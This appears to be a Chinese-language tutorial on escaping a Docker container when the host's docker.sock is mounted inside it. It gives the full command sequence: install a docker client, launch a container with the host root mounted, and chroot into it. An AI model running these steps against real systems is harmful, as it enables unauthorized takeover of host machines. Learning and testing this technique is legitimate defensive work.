






# 挂载Docker Socket（docker.sock）导致逃逸

## ⭐挂载Docker Socket（docker.sock）

> 使用者将宿主机`/var/run/docker.sock`文件挂载到容器中，目的是能在容器中也能操作docker。

**概述：**

Docker采用C/S架构，我们平常使用的Docker命令中，docker即为client，Server端的角色由docker daemon扮演，二者之间通信方式有以下3种：

```
unix:///var/run/docker.sock(默认tcp://host:portfd://socketfd
```

Docker Socket是Docker守护进程监听的Unix域套接字，用来与守护进程通信——查询信息或下发命令。

**判断方法：**

实战中通过find命令，可查找类似docker.sock等高危目录和文件




相当于在docker里可以执行宿主机docker命令，这样的话，我们新启一个容器，挂载宿主机根目录，即可逃逸

**复现：**

1、首先创建一个容器并挂载/var/run/docker.sock：

```bash
docker run -itd -v /var/run/docker.sock:/var/run/docker.sock ubuntu
```

2、在该容器内安装Docker命令行客户端：

- 安装方法一：

```bash
apt-updateapt-get install \apt-transport-https \ca-certificates \curl \gnupg-agent \software-properties-commoncurl -fsSL https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/gpg | apt-key add -apt-key fingerprint 0EBFCD88add-apt-repository \"deb [arch=amd64] https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/ \$(lsb_release -cs) \stable"apt-get updateapt-get install docker-ce docker-ce-cli containerd.io
```

- ⭐安装方法二：

`cat /etc/os-release`查看当前linux发型版本，准备安装docker客户端，方便操作docker



访问[https://download.docker.com/linux/debian/dists/，根据选择具体分支，去https://download.docker.com/linux/debian/dists/xxxxxx/pool/stable/amd64/下载.deb结尾的安装文件](https://download.docker.com/linux/debian/dists/，根据选择具体分支，去https://download.docker.com/linux/debian/dists/xxxxxx/pool/stable/amd64/下载.deb结尾的安装文件)

> 使用这种方式安装的好处是容器内一般都缺少很多基础组件，如果通过apt-get安装实测20分钟也装不完
> 

3、接着使用该客户端通过Docker Socket与Docker守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部:

```bash
docker run -it -v /:/host ubuntu:latest /bin/bash
```



4、在新容器内执行chroot将根目录切换到挂载的宿主机根目录:

```
chroot /host
```



已成功逃逸到宿主机。


